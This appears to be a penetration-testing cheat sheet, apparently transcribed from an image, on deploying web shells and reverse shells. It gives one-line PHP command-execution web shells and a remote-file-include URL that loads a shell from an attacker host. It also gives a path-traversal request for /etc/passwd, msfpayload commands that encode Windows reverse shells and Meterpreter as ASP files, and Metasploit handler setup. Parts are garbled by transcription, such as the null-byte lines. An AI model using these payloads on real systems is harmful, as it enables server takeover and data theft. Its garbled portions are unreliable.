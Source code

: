The following web shells are the most reliable in terms of simplicity & functionaliy -

1. Php-reverse shell by pentestmonkey
2. b374k by 

<?php system($_GET['cmd']) ?>
or
<?php system($_REQUEST['cmd']); ?>
Example usage via Remote File Include (RFI):
http://<target-ip>/index.php?cmd=<command to execute>&page=http://<attacker-ip>/cmd.php
Null Bytes (‰00 - html code ampersand, hash 137, 00) may also assist in some cases:
http://<target-ip>/index.php?cmd=<command to execute>&page=http://<attacker-ip>/cmd.php
‰
e.g.
http://<attacker-ip>/index.php?system=../../../../../etc/passwd.html
Encoding windows reverse command shell as asp
msfpayload windows/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-nc-port> R | msfencode -t asp -o <filename>.asp
Encoding meterpreter in asp
msfpayload windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-multi-handler-port> R | msfencode -t asp -o <filename>.asp
------
attacker msfconsole:
use multi/exploit/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <attacker-multi-handler-port>
exploit
